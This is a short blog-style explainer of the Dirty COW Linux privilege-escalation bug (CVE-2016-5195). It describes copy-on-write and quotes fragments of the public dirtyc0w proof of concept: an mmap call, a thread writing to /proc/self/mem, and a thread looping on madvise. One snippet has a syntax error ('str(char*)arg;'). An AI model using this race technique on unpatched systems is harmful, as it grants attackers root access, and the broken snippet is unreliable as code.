 ```yaml
---
date: 2022-02-19 21:50:00
tags:
    - linux
    - COW
    - anusO1
category: tech
keywords:
  - dirtycow
---
```


# author: [[anusO1]](https://github.com/calebrwalk5)

# Details about "Dirty Cow" (CVE-2016-5195)

# COW (Copy on Write)

Copy on Write is an optimization technique that allows virtual pages of memory in different processes, which have identical content to map to the same physical memory pages. If one of the processes writes to one of these shared pages, the data is copied to a new physical page and the virtual-to-physical-memory mappings are updated according to the changes. This techniqie is used (and abused) in many different scenarios.

# Vulnerability

"Dirty Cow" (CVE-2016-5195) is a privilege escelation vulnerability in the Linux kernel. Here we are looking at the ["dirtyc0w PoC"](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)
```
map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
```
It starts two threads. One thread opens /proc/self/mem read-write and loops millions of times writing the data specified on the command-line to it at the offset of the mmap’ed file.  /proc/self/mem is an entry in the procfs virtual file system which gives access to the pages of a current process’s virtual memory.

```
void *procselfmemThread(void *arg) {
	char *str;
	str=(char*)arg;
	int f=open("/proc/self/mem",O_RDWR);
	int i,c=0;
	for(i=0;i<100000000;i++) {
		lseek(f,(uintptr_t) map,SEEK_SET);
		c+=write(f,str,strlen(str));
	}
	printf("procselfmem %d\n\n", c);
}
```
This writes to /proc/self/mem and triggers COWs, but these pages are marked a private, and the memory pages will not be written back to the mapped file. However, the other thread loops, again millions of times, calling the madvise(2) system call on the same offset with the flag MADV_DONTNEED which tells the kernel to discard the pages that are mmap’ed.
```
void *madviseThread(void *arg) {
	char *str;
	str(char*)arg;
	int i,c=0;
	for(i=0;i<100000000;i++) {
		c+=madvise(map,100,MADV_DONTNEED);
	}
	printf("madvise %d\n\n",c);
}
```
